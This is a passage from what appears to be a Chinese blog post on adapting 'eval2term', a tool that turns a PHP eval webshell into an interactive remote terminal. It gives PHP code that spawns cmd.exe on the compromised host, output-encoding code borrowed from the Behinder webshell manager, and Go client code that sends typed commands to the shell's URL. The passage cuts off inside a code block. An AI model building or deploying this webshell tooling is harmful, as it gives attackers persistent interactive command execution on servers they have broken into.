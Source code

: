 ## 改造

基于以上的借鉴思路我们开始着手改造eval2term！

### 对windows的支持

把`/bin/sh`换为`cmd.exe`后还需要注意这里

```php
$handle = proc_open("cmd.exe", $desc, $pipes);
@file_put_contents($STDIN, "");
```

第二行不能省略，不然也创建不了进程

### 对中文的支持

这里我借鉴了冰蝎的思路

```php
if (($output = fread(fopen($STDOUT, "r+"), 10240)) != false){
    if (!function_exists("mb_convert_encoding")){
        $s1 = iconv('utf-8', 'gbk//IGNORE', $output);
        $s0 = iconv('gbk', 'utf-8//IGNORE', $s1);
        if ($s0 == $output){
            $output = $s0;
        }else{
            $output = iconv('gbk', 'utf-8//IGNORE', $output);
        }
    }else{
        $output = mb_convert_encoding($output, 'UTF-8', mb_detect_encoding($output, "UTF-8,GBK"));
    }
	echo($output);
	@file_put_contents($STDOUT, "");
}
```

### 改进读键盘输入

原项目中对键盘输入的读写多少有点奇怪。。。

```go
go func() {
	for {
		// 如果没有输入数据，则延时1秒后再检测
		if len(cmdCache) == 0 {
			time.Sleep(time.Second)
			continue
		}
		httpPost(fmt.Sprintf("%s?c=%s", Url, cmdCache), PostData(PhpCode.write))
		cmdCache = ""
		// 2秒发送一次
		time.Sleep(time.Second * 2)
	}
}()

for {
	char, key, err := keyboard.GetKey()
	if err != nil {
		panic(err)
	}
	// 输入ctrl+D 退出程序
	if key == 0x04 {
		break
	}

```